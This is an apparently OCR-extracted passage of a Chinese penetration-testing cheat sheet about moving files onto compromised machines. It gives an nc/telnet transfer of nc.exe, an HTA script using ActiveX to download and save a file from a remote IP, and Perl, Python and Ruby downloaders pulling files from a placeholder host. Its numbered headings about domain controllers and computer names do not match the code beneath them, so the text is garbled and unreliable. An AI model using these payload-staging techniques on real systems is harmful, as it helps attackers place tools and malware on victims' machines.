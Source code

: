 ```
服务端：nc -lvp 23 < nc.exe
下载端：telnet ip -f c:\\nc.exe
```

9、查看域控制器 (多域控制器的时候, 而且只能用在域控制器上)

```
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.206.101/demo.php.zip",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\\\demo.zip", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>
</html>
```

```
#!/usr/bin/perl
use LWP::Simple
getstore("http://lemon.com/file.zip", "/root/1.zip");
```

10、查询所有计算机名称

```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://lemon.com/file.zip')
localFile = open('/root/1.zip', 'w')
localFile.write(u.read())
localFile.close()
```

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.lemon.com") { |http|
r = http.get("/file.zip")
open("/root/1.zip", "wb") { |file|
file.write(r.body)
}
}
```
